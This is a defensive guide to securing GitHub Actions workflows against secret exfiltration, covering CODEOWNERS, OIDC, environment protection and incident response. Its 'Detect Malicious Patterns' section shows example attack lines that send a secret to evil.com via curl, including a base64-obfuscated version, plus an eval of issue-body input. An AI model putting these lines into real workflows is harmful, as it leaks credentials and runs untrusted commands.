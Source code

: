# Workflow Security: Protection Against Malicious Actions

## The Threat Model

A malicious actor (even with maintainer access) could attempt to:

1. Exfiltrate secrets via workflow modifications
2. Use grep/curl to send secrets to external APIs
3. Encode and hide malicious commands
4. Modify workflows to run on pull_request_target
5. Add new "dependencies" that steal data

## Protection Strategies

### 1. Branch Protection + CODEOWNERS

Create `.github/CODEOWNERS`:

```yaml
# Require security team approval for workflow changes
.github/workflows/ @security-team @owner
.github/actions/ @security-team @owner
```

Enable branch protection:

- Require CODEOWNERS review for workflow changes
- No bypass for administrators
- Dismiss stale reviews on new commits

### 2. Workflow Isolation by Event Type

```yaml
# SAFE: Fork PRs (no secrets)
name: CI Tests
on:
  pull_request:  # Not pull_request_target!
permissions:
  contents: read

# DANGEROUS: Only after merge
name: Deploy
on:
  push:
    branches: [main]
permissions:
  contents: read
  id-token: write  # For OIDC only
```

### 3. Environment Protection

```yaml
jobs:
  deploy:
    environment:
      name: production
      # Requires manual approval from specific users
    steps:
      - name: Deploy
        env:
          API_KEY: ${{ secrets.API_KEY }}
```

### 4. Secret Access Controls

1. **Use OIDC instead of long-lived secrets**:

   ```yaml
   - uses: aws-actions/configure-aws-credentials@v4
     with:
       role-to-assume: arn:aws:iam::123456789:role/GitHubActions
       aws-region: us-east-1
   ```

2. **Separate secrets by environment**:

   - `DEV_API_KEY` - for development
   - `PROD_API_KEY` - for production (protected environment)

3. **Audit secret access**:
   - Regular review of workflow runs
   - Check for unusual patterns

### 5. Detect Malicious Patterns

Our security audit script checks for:

```bash
# Dangerous: Direct secret in run command
run: curl -X POST https://evil.com -d "secret=${{ secrets.API_KEY }}"

# Dangerous: Base64 encoded commands
run: echo "Y3VybCBldmlsLmNvbSAtZCAke3tzZWNyZXRzLkFQSV9LRVl9fQ==" | base64 -d | sh

# Dangerous: Dynamic command execution
run: eval "${{ github.event.issue.body }}"
```

### 6. Workflow Review Process

Before merging workflow changes:

1. Check for pull_request_target usage
2. Verify no secrets in run commands
3. Ensure minimal permissions
4. Look for encoded/obfuscated commands
5. Verify all actions are pinned

### 7. Runtime Protections

1. **GitHub Advanced Security** (if available):

   - Secret scanning in code
   - Push protection
   - Security alerts

2. **Third-party monitoring**:
   - Monitor outbound network traffic
   - Alert on unusual API calls
   - Log all workflow executions

### 8. Emergency Response

If you suspect compromise:

1. **Immediately**:

   - Revoke all repository secrets
   - Disable GitHub Actions
   - Review recent workflow runs

2. **Investigation**:

   - Audit workflow history
   - Check for data exfiltration
   - Review merged PRs

3. **Recovery**:
   - Rotate all secrets
   - Re-enable with stricter controls
   - Document lessons learned

## Example: Secure Workflow Template

```yaml
name: Secure CI/CD Pipeline
on:
  # Safe events for untrusted code
  pull_request:
    branches: [main]

  # Trusted events after merge
  push:
    branches: [main]

# Default minimal permissions
permissions:
  contents: read

jobs:
  # Run on PRs - no secrets available
  test:
    if: github.event_name == 'pull_request'
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@SHA # Always pin!
      - run: npm test

  # Run after merge - with protections
  deploy:
    if: github.event_name == 'push'
    runs-on: ubuntu-latest
    environment: production # Requires approval
    permissions:
      id-token: write # For OIDC
    steps:
      - uses: actions/checkout@SHA
      - name: Deploy
        run: |
          # Secrets only in env vars, never in commands
          export API_ENDPOINT="https://api.example.com"
          ./deploy.sh
        env:
          API_KEY: ${{ secrets.PROD_API_KEY }}
```

## Automated Monitoring

Add to your security workflow:

```yaml
- name: Audit Workflow Security
  run: |
    ./scripts/audit-workflow-security.sh

- name: Check for Secret Exposure
  run: |
    # Ensure no secrets in logs
    ! grep -r "secret\|password\|api.key" .github/workflows/
```

## Remember

- **Trust but verify** - Even maintainers need oversight
- **Defense in depth** - Multiple layers of protection
- **Principle of least privilege** - Minimal permissions always
- **Audit regularly** - Review logs and access patterns
- **Automate security** - Make the secure path the easy path
